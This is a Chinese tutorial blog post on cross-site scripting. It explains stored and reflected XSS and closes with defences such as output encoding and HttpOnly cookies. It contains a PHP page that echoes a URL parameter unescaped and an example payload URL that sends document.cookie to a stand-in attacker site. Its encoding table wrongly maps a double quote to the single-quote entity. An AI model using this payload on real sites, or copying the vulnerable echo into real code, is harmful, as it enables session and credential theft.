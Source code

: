 ```yaml
---
title: XSS 攻击原理
date: 2017-04-05 14:12:50
tags: problem
---
```


XSS ：跨站脚本攻击（Cross Site Scripting）。为了区别于层叠样式表（Cascading Style Sheet）的缩写 CSS，一般将其缩写为 XSS。XSS 针对一种 web 安全漏洞，该漏洞允许攻击者将恶意脚本注入到用户接收到的网页中，以完成某种不利于用户的操作。

<!-- more -->

简单地说，攻击者可以利用 XSS 漏洞向用户发送攻击脚本，因为用户的浏览器并不知道这段脚本是恶意的，所以依然会执行它。这段恶意脚本可以像正常脚本一样访问 cookie、读取保存在浏览器里的敏感信息，甚至还可以改写页面，进行钓鱼攻击。

下面两个例子，会让我们对 XSS 有个直观的认识。

**场景一：**

攻击者在某网站评论页面，提交了一段可执行的 JavaScript 脚本（这里假设为“恶意脚本”），若服务器端接收到这段脚本后，没有进行过滤或者转义这段脚本，而是将其作为普通的内容发布到了用户评论区，那么，后续用户访问到这个页面后，就会执行这段注入的“恶意脚本”。

**场景二：**

网站 www.a.com 会根据 url 后参数 content 来呈现不同的内容，我们假设页面 index.php 代码如下：

```
<!DOCTYPE html>
<html>
<body>
<h1>接收的内容：</h1>

<?php
    echo $_GET['content'];
?>

</body>
</html>
```

当我们访问地址 http://www.a.com/index.php?content=test 时，页面输出内容就是 test。这样好像并没有什么问题，但是，如果攻击者将访问地址修改为 http://www.a.com/index.php?content=&lt;script&gt;window.open("www.b.com?param="+document.cookie)&lt;/script&gt;， 那么，问题就来了。当某人打开这个地址后，除了打开 www.a.com ，还会弹出一个新的窗口 www.b.com（攻击者的站点），并且带上他保存在本地的 cookie，这些 cookie 很可能包含了他的用户名、密码等私密信息，而这些信息都会被攻击者获取。

（当然了，按照上面步骤操作一遍，我们不一定能看到上面所说的现象，因为有些浏览器会自带一些保护性措施来防止这种 XSS 攻击）

XSS 攻击大体分为以上两类：

**① 存储式攻击**
主要出现在让用户输入数据，然后存入数据库的场景，比如留言、评论、博客日志和各类表单等。攻击者在这类页面输入恶意脚本后，若未经过滤直接入库，应用程序从数据库中读取这些“恶意脚本数据”，并在页面中发布出来，后续用户浏览此页面时就可能受到攻击。

**② 反射型攻击**
攻击者将恶意脚本代码加入 url 地址的请求参数里，应用程序接收到请求参数后，将参数直接输入，就可能引入可执行的代码块。用户点击类似的恶意链接就可能执行此代码块，受到攻击。

**归根结底，以上两类情况都是没有对用户提交的数据（参数）做过滤检查。所以，开发者应该有一个共识：永远不要相信用户的输入！对用户的输入进行过滤和审核是一个必要的环节！**

所以，依据以上分析：**预防 XSS 攻击的核心就是在输出不可信数据的时候进行编码，过滤特殊字符。**

```
<     ->  &lt;    
>     ->  &gt;
&     ->  &amp;
"     ->  &quot; 
"     ->  &#x27;
空格  ->  &nbsp;  
/     ->  &#x2f;  
```

以上编码转换能够防御一部分 XSS 攻击。实际生产过程中，具体问题还是应该具体分析。

总结一下，对于 XSS 攻击，我们可以做如下防范：

(1) 输入过滤。不要相信用户的输入，对用户输入的数据进行过滤。如用户输入的日期、手机号、用户名等是否格式正确，是否包含 script 等敏感关键词。

(2) 输出编码。服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义。如 PHP 中的 htmlentities() 和 htmlspecialchars() 函数。

(3) 安全编码。开发需尽量避免在客户端进行文档重写、重定向或其他敏感操作，同时要避免使用客户端数据，这些操作需尽量在服务器端使用动态页面来实现。

(4) HttpOnly Cookie。Web应用程序在设置 cookie 时，将其属性设为 HttpOnly，这样可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取。



参考：
[1] https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md
[2] http://blog.csdn.net/ghsau/article/details/17027893
[3] http://www.freebuf.com/articles/web/9977.html
[4] http://wetest.qq.com/lab/view/136.html
